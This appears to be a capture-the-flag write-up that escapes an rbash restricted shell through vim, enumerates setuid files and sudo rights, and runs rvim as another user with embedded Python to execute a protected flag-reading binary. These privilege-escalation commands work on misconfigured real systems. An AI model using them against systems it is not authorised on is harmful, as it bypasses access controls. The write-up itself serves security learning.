



Upon connecting to the server, I tried running ls and saw that there's a flagReader file.

By trying to run it, we see that we're in a restricted environment and the error messages show that we're running in rbash.

To escape rbash you can run the following in vim:
~~~~
:set shell=/bin/sh
:shell
~~~~

Lets see if there's setuid on the flagReader file:
~~~~
$ ls -al flagReader
---S--x--- 1 topsecretuser secretuser 8768 Feb 25 08:42 flagReader
~~~~
flagReader is executable by secretuser, so lets try to find a way to execute things as secretuser:

First I tried listing all files that are setuid to run as secretuser:
~~~~
find / -user secretuser -perm -4000 -exec ls -ldb {} \; 2> /dev/
~~~~

apparently no other binary will allow us to run as secretuser

Now lets see if there's anything that sudo will allow us to run with higher privileges:
~~~~
$ sudo -l
Matching Defaults entries for ctfuser on
    ip-172-31-31-196.us-west-2.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctfuser may run the following commands on
        ip-172-31-31-196.us-west-2.compute.internal:
    (ALL) NOPASSWD: /usr/bin/sudo -l
    (secretuser) NOPASSWD: /usr/bin/rvim
~~~~
So this means we can run rvim as secretuser:
~~~~
$ sudo -u secretuser rvim
~~~~
rvim doesn't allow you to run shell commands, so we can't use the same shell spawning technique as before. However, rvim does allow you to run python code. Because of this we can just execute flagReader with python: 
~~~~
:py3 import subprocess
:py3 print(subprocess.check_output(['/home/ctfuser/flagReader']))
~~~~
and we get the flag:
~~~~
flag{rVim_is_no_silverbullet!!!111elf}
~~~~
